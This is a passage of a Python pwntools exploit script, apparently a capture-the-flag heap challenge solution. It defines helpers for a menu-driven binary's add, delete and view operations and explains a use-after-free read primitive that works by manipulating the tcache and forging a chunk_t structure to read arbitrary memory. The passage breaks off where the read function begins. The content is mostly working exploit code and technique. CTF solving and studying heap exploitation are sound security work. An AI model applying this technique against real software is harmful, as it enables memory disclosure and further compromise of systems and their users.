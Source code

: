 ```python  
'''

# ===========================================================  
#                     EXPLOIT GOES HERE  
# ===========================================================

io = start()  
chunk_idx = 0

def add(content, l=None):  
   global chunk_idx  
   assert chunk_idx < 32  
   if not l:  
       l = len(content)  
   io.sendlineafter(b'> ', b'1')  
   io.sendlineafter(b'chunk size: ', str(l).encode())  
   io.sendafter(b'chunk data: ', content)  
   chunk_idx += 1

def delete(idx):  
   io.sendlineafter(b'> ', b'2')  
   io.sendlineafter(b"chunk id: ", str(idx).encode())

def view(idx):  
   io.sendlineafter(b'> ', b'3')  
   io.sendlineafter(b'chunk id: ', str(idx).encode())  
   response = io.recvuntil(b'1. Add')[:-6]  
   assert response[:3] != 'b[-]', response  
   return response

# Read primitive  
# When we free a chunk, chunks[idx] still points to the heap  
# When that chunk is allocated again, we can fill the contents  
# with anything we want  
# Idea:  
# 1. Free 2 chunks with content size 24 (= sizeof(chunk_t)) to put them in the
tcache  
#    Both their content and their datastructure is freed, so the tcache looks
like this:  
# +----------+    +----------+    +----------+    +----------+  
# |          |    |          |    |          |    |          |  
# |chunk i+1 | -> | contents | -> | chunk i  | -> | contents |  
# |          |    |          |    |          |    |          |  
# +----------+    +----------+    +----------+    +----------+  
# When we would allocate, two chunks are removed and in the second one, we can
write anything we want  
# If we could discard the first one, we can write anything we want into chunk
i (which is still accessible!)  
# If we write a valid chunk layout (with used=1) into chunk i, we can read
from the pointer in that structure (which we also control)  
# 2. To discard a chunk, we allocate a string that is bigger than 24, so it
cannot be served from the tcache  
#    Therefore, only chunk i+1 is removed to serve the
malloc(sizeof(chunk_t)).  
# 3. Allocate a chunk of size 24 (= sizeof(chunk_t)). The chunk_t allocation
will point to contents from above, while our allocated string  
#    will be put into chunk i. The layout of chunk_t is length + used + ptr.
Therefore we write p64(length to read) + p64(1) + p64(ptr to read)  
# 4. If we view chunk i, it will read the length and ptr to read from the just
allocated fake chunk_t  
def read(ptr, l):  
   idx = chunk_idx  
   # 1. free 2 chunks of size 24  
```